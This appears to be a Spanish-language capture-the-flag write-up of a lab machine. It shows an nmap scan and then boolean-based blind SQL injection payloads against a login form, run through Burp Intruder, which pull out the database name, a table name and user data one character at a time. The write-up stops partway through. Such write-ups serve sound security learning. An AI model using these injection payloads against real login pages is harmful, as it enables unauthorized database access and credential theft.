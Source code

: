 ### nmap
```python
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-02-04 20:02 EST
Nmap scan report for 10.10.64.85
Host is up (0.18s latency).
Not shown: 64902 closed tcp ports (reset), 631 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 b0:c5:69:e6:dd:6b:81:0c:da:32:be:41:e3:5b:97:87 (RSA)
|   256 6c:65:ad:87:08:7a:3e:4c:7d:ea:3a:30:76:4d:04:16 (ECDSA)
|_  256 2d:57:1d:56:f6:56:52:29:ea:aa:da:33:b2:77:2c:9c (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Login
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 48.21 seconds
```

### Ports: 22/ssh - 80/http

### Enumeración del puerto 80
vamos a intentar hacer una inyección sqli
![[Pasted image 20240204210908.png]]

![[Pasted image 20240204211038.png]]
parece que la pagina esta en mantenimiento. 

vamos a probar otras inyecciones diferentes
![[Pasted image 20240204213231.png]]

![[Pasted image 20240204213305.png]]

### Fuzzing con gobuster

![[Pasted image 20240204213332.png]]
parece que no tenemos ningún directorio que sea de ayuda. 

### sqli

```python
	'+and+substring(database(),1,1)="a"+#
```

vamos a interceptar una peticion con burpsuite
![[Pasted image 20240204220002.png]]

intruder
![[Pasted image 20240204220113.png]]

configuramos el payloads
![[Pasted image 20240204220220.png]]
obtenemos como respuesta 

```python
	username=kitty'+and+substring(database(),1,1)="m"+#&password=kitty
```

para la segunda posición obtenemos la letra "y"
![[Pasted image 20240204222627.png]]

para el tercer posición obtenemos la letra "w"
![[Pasted image 20240204223225.png]]
tenemos que hacer esto cambiando la posición hasta conseguir información sobre el nombre de la base de datos

usaremos este parametro para obtener informacion sobre las tablas

```python
	username=kitty'+and+substring((select+table_name+from+information_schema.tables+where+table_schema="mywebsite"+limit+0,1),1,1)="a"+#&password=kitty
```

el primer resultado nos da la letra "s"
![[Pasted image 20240204235500.png]]

ejecutamos el ataque cambiando la posición, en este caso nos da la letra "i"
![[Pasted image 20240205000151.png]]
tenemos que hacer esto hasta sacar el nombre de la tabla

```python
	username=kitty'+and+substring((select+column_name+from+information_schema.columns+where+columns_schema="siteusers"+limit+0,1),1,1)="a"+#&password=kitty
```

```python
kitty'+AND+SUBSTRING((SELECT+username+from+siteusers+LIMIT+0,1),1,1)="a"
```